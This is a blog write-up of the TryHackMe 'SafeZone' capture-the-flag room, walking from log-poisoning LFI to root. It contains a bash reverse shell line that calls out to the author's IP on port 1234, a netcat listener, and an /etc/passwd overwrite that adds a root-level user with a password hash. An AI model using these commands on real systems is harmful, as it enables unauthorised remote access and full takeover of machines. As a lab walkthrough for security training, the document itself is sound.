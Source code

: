 ```yaml
---
layout: post
title:  "THM: SafeZone"
date:   2021-04-02 13:00:00 +1100
category: hacking
---
```


## SafeZone
*CTF Designed by CTF lover for CTF lovers*

Medium rated. This is [SafeZone](https://tryhackme.com/room/safezone) from THM. It was pretty enjoyable; here's what happened.

## Ports
SSH and HTTP only.

## HTTP
At index.php we have a login page but we have no credentials. There is a register.php where we can register an account which we can then use to login. Doing so gets us to dashboard.php which has a few links including *detail.php* which has a comment hidden in the page source:

>try to use "page" as GET parameter

Trying this doesn't work. We need to be a different user.

Doing some webserver enumeration turns up *note.txt* which is from *admin* (our user) saying that his password is in */home/files/pass.txt* (I think, I didn't make a note of it). We need to look harder for this; it's in **/~files/pass.txt**. This file contains a hint that narrows down the password to one of a list of 100. Trying a few combinations on the login page quickly reveals which one is correct, although we can only do 3 before we get timed out for 60 seconds. Anyway it's pretty straightforward.

Once we are logged in as admin we do have an LFI with the page parameter, and we can read */var/log/apache2/access.log* with it so our foothold is via poisoning the log file. I use the classic PHP code in the User-Agent field of a Burp repeater request to get the command into the logfile and then use the PHP one-liner to get a shell.

By the way; we can register a user with the name *admin* and a different password, but the LFI still won't work if you do that.

Anyway, we're on the box.

## www-data
We don't need to be www-data for long; in /home/files we find this:

{% highlight shell %}
www-data@safezone:/home/files$ ls -lash
ls -lash
total 40K
4.0K drwxrwxrwx 5 files files 4.0K Mar 29 04:10  .
4.0K drwxr-xr-x 4 root  root  4.0K Jan 29 12:30  ..
   0 -rw------- 1 files files    0 Mar 29 04:10  .bash_history
4.0K -rw-r--r-- 1 files files  220 Jan 29 12:30  .bash_logout
4.0K -rw-r--r-- 1 files files 3.7K Jan 29 12:30  .bashrc
4.0K drwx------ 2 files files 4.0K Jan 29 20:44  .cache
4.0K drwx------ 3 files files 4.0K Jan 29 20:44  .gnupg
4.0K drwxrwxr-x 3 files files 4.0K Jan 30 09:30  .local
4.0K -rw-r--r-- 1 files files  807 Jan 29 12:30  .profile
4.0K -rw-r--r-- 1 root  root   105 Jan 29 20:38 '.something#fake_can@be^here'
4.0K -rwxrwxrwx 1 root  root   112 Jan 29 10:24  pass.txt
www-data@safezone:/home/files$ file '.something#fake_can@be^here'
file '.something#fake_can@be^here'
.something#fake_can@be^here: ASCII text
{% endhighlight %} 

We also have another user (yash) but we can't enter the home directory. Anyway, the file I've mentioned above contains a hash for the user *files* which John can deal with easily, and then we can SSH in as *files*.

## files > yash
I run linpeas, because I always run linpeas. Not too much stands out, except:

{% highlight shell %}
[+] Active Ports
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#open-ports                                                             
Active Internet connections (servers and established)                                                                                  
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -       
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -       
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -      
{% endhighlight %} 

I wonder what's on Port 8000? We have an SSH connection. I'll set up a port forward:

{% highlight shell %}
┌──(root💀kali)-[/opt/thm/safezone]
└─# ssh -L 9000:127.0.0.1:8000 files@10.10.73.224                                                                                                                          255 ⨯
The authenticity of host '10.10.73.224 (10.10.73.224)' can't be established.
ECDSA key fingerprint is SHA256:SPPh4P6UapASPDzKOK9g//1xYbr6bbWyH6fT7FwxB4U.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.73.224' (ECDSA) to the list of known hosts.
files@10.10.73.224's password: 
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-140-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 System information disabled due to load higher than 1.0

0 packages can be updated.
0 of these updates are security updates.

Last login: Mon Mar 29 03:44:43 2021 from 192.168.28.227
{% endhighlight %} 

And visit localhost:9000 in my browser. There is an nginx 403 page, so I run a feroxbuster and a dirsearch (since it comes with a nice default wordlist):

>[18:46:20] 200 -  462B  - /login.html  
>[18:46:20] 200 -  578B  - /login.js 

We don't really need login.html because login.js shows where we want to go - *pentest.php*. Here, we have a box where we can enter a 'message' for yash. I try a few things but all that seems to happen is the message gets echoed back, with some modifications. If we use *bash*, it gets dropped. Same for a few other things, like *nc*, semi-colons and so-on. Ping doesn't seem to get dropped, but it won't ping me. Hmmm. I try *sleep 5* and it works; the response has a very definite delay. So we do have command execution - presumably as yash - but with some filter to defeat.

Remember I said I couldn't cd to */home/yash*? Let's fix that:

``
chmod ugo+rwx /home/yash
``

This works. Since I'm already SSH'd in as *files* for my port forward, I can now write to the *yash* directory. This was in my original webshell:

{% highlight shell %}
$ ls -lash
total 16K
4.0K drwxr-xr-x  4 root  root  4.0K Jan 29 12:30 .
4.0K drwxr-xr-x 23 root  root  4.0K Mar 29 02:55 ..
4.0K drwxrwxrwx  5 files files 4.0K Mar 29 04:10 files
4.0K drwx------  5 yash  yash  4.0K Mar 29 05:13 yash
{% endhighlight %} 

And this was after:

{% highlight shell %}
files@safezone:/home$ ls -lash
total 16K
4.0K drwxr-xr-x  4 root  root  4.0K Jan 29 12:30 .
4.0K drwxr-xr-x 23 root  root  4.0K Mar 29 02:55 ..
4.0K drwxrwxrwx  5 files files 4.0K Mar 29 04:10 files
4.0K drwxrwxrwx  5 yash  yash  4.0K Mar 29 05:13 yash
{% endhighlight %}

I've got you now, yash. I can read the user flag, but more usefully I can create a shell script to send me a reverse shell, which I will then call from the web session:

{% highlight shell %}
files@safezone:/home/yash$ printf '#!/bin/bash\nbash -i >& /dev/tcp/10.9.10.123/1234 0>&1\n' > shellington.sh
files@safezone:/home/yash$ cat shellington.sh 
#!/bin/bash
bash -i >& /dev/tcp/10.9.10.123/1234 0>&1
files@safezone:/home/yash$ chmod +x shellington.sh
{% endhighlight %}

I start a listener and call */home/yash/shellington.sh* from the webpage:

{% highlight shell %}
┌──(root💀kali)-[/opt/thm/safezone]
└─# nc -nvlp 1234                                                                                                                                                            1 ⨯
listening on [any] 1234 ...
connect to [10.9.10.123] from (UNKNOWN) [10.10.73.224] 53374
bash: cannot set terminal process group (534): Inappropriate ioctl for device
bash: no job control in this shell
yash@safezone:/opt$ sudo -l
sudo -l
Matching Defaults entries for yash on safezone:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR
    XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    mail_badpass

User yash may run the following commands on safezone:
    (root) NOPASSWD: /usr/bin/python3 /root/bk.py
{% endhighlight %}

We are yash.

## yash > root
So what's that *bk.py*? We can't read it, but we can execute it and trying it out reveals it copies files for us. It asks for a password but either I got lucky and *pass* works, or much more likely it's a red herring. Let's see:

{% highlight shell %}
yash@safezone:/tmp$ echo test > test.txt
echo test > test.txt
yash@safezone:/tmp$ sudo -u root /usr/bin/python3 /root/bk.py
sudo -u root /usr/bin/python3 /root/bk.py
Enter filename: /tmp/test.txt
Enter destination: /tmp/bak.txt
Enter Password: pass
yash@safezone:/tmp$ ls -lash
ls -lash
total 48K
4.0K drwxrwxrwt 10 root root 4.0K Apr  2 07:48 .
4.0K drwxr-xr-x 23 root root 4.0K Mar 29 02:55 ..
4.0K drwxrwxrwt  2 root root 4.0K Apr  2 07:20 .ICE-unix
4.0K drwxrwxrwt  2 root root 4.0K Apr  2 07:20 .Test-unix
4.0K drwxrwxrwt  2 root root 4.0K Apr  2 07:20 .X11-unix
4.0K drwxrwxrwt  2 root root 4.0K Apr  2 07:20 .XIM-unix
4.0K drwxrwxrwt  2 root root 4.0K Apr  2 07:20 .font-unix
4.0K -rw-r--r--  1 root root    5 Apr  2 07:48 bak.txt
4.0K drwx------  3 root root 4.0K Apr  2 07:20 systemd-private-5497c5cea67943f6b1a8a979bdc90224-apache2.service-0guC0M
4.0K drwx------  3 root root 4.0K Apr  2 07:20 systemd-private-5497c5cea67943f6b1a8a979bdc90224-systemd-resolved.service-cwWMdZ
4.0K drwx------  3 root root 4.0K Apr  2 07:20 systemd-private-5497c5cea67943f6b1a8a979bdc90224-systemd-timesyncd.service-EpXkIr
4.0K -rw-r--r--  1 yash yash    5 Apr  2 07:47 test.txt
yash@safezone:/tmp$ cat bak
cat bak.txt 
test
{% endhighlight %}

Right so it happily copies files as root, but make them readable. Goodo. I use this to make a copy of the root flag and read it, but that doesn't get me a shell. There are probably a few ways to do this; I make a copy of /etc/passwd (you don't need the script for that), then append a new user (root2:mrcake) to it, and then use the script to overwrite the real /etc/passwd with my version. Then I can *su root2* and it's game, set and match:

{% highlight shell %}
yash@safezone:/tmp$ cp /etc/passwd /tmp/pass
cp /etc/passwd /tmp/pass
yash@safezone:/tmp$ printf 'root2:WVLY0mgH0RtUI:0:0:root:/root:/bin/bash\n' >> /tmp/pass
<Y0mgH0RtUI:0:0:root:/root:/bin/bash\n' >> /tmp/pass

yash@safezone:/tmp$ sudo -u root /usr/bin/python3 /root/bk.py
sudo -u root /usr/bin/python3 /root/bk.py
Enter filename: /tmp/pass
Enter destination: /etc/passwd
Enter Password: pass
yash@safezone:/tmp$ su root2
su root2
su: must be run from a terminal # doh
yash@safezone:/tmp$ python3 -c 'import pty;pty.spawn("/bin/bash");'
python3 -c 'import pty;pty.spawn("/bin/bash");'
yash@safezone:/tmp$ su root2
su root2
Password: mrcake

root@safezone:/tmp# id;hostname
id;hostname
uid=0(root) gid=0(root) groups=0(root)
safezone
{% endhighlight %}

Little fist pump when this one was done. Thanks cyberbot.
